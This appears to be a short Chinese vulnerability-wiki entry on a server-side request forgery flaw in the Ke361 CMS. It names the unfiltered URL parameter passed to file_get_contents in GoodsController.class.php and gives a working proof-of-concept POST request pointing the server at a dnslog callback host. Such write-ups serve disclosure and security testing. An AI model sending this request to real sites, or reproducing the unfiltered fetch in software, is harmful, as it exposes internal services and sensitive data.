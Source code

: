 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](/assets/PeiQi-Wiki/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35.png)

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![img](/assets/PeiQi-Wiki/img/1634173817836-6c70b428-ad33-4f61-9c5f-94728c906ff2.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```php
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![img](/assets/PeiQi-Wiki/img/1634173848355-4f9cb3d2-7e5e-4b6d-8ca7-c7fbacb844e8.png)

![img](/assets/PeiQi-Wiki/img/1634173865625-05a6c6ce-d427-498e-80c0-ef8b6ec232a3.png)